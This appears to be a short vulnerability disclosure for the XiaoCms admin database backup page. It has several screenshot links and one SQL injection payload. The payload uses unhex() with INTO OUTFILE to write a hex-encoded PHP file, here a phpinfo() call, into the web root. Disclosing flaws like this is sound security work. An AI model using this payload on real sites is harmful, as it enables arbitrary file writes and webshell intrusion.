







Vulnerabilities in database backup page



This function is located `XiaoCms\admin\controller\database.php`



capture the packet，execute SQL command



```mysql
`; select unhex('3C3F70687020706870696E666F28293B') INTO OUTFILE 'C:/phpStudy/PHPTutorial/WWW/xiaocms/she.php'; `;
```







